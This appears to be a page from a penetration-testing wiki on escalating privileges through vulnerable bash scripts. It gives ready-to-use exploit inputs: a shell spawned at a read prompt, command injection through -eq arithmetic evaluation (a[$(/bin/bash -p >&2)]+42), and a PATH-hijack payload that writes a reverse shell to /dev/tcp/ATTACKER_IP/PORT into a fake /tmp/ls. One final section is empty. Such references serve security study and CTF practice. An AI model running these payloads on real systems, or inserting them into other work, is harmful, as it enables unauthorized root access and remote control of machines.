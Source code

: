 # Bash

## Theory 

Bash scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, bash scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice 

### Shell In Prompt

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes `read -p`. We can input `/bin/bash -i` to get a shell as another user.

```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -p "What's you name: "
```
{% endtab %}

{% tab title="Exploit" %}
We can input `/bin/bash -i` to get a shell.

```bash
$ sudo /usr/bin/sudo-script.sh

What's you name: /bin/bash -i
```
{% endtab %}
{% endtabs %}

### Bash eq

{% tabs %}
{% tab title="Enumerate" %}
If a bash script use the `-eq` comaparison, it's vulnerable to arbitrary command execution.
```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```
{% endtab %}

{% tab title="Exploit" %}
To execute arbitrary command, answer this question as below.
We have to Inject arbitrary command before the correct number (42).
```bash
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/bin/bash -p >&2)]+42
$

#Or execute your own malicious script
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/tmp/shell.elf)]+42
```

{% hint style="info" %}
a[$(/tmp/shell.elf)]' will allow us, by evaluating the content of the array, to execute our script
{% endhint %}

{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes another command **without specifying the path.** We can abuse it and get a privilege escalation.
```bash
$ cat /usr/bin/vuln-suid-script.sh

#!/bin/bash
ls /root/var/file
```
{% endtab %}

{% tab title="Exploit" %}
We can generate a malicious file in the `/tmp` folder named as the command called without full path
```bash
#Generate a payload
echo "bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'" > /tmp/ls
chmod +x /tmp/ls

#Change Path env variable and execute the script
export PATH=/tmp:$PATH
/usr/bin/vuln-suid-script.sh
```
{% endtab %}
{% endtabs %}

### Unquoted Expression Injection

{% tabs %}
{% tab title="Enumerate" %}

{% endtab %}

{% tab title="Exploit" %}

{% endtab %}
{% endtabs %}
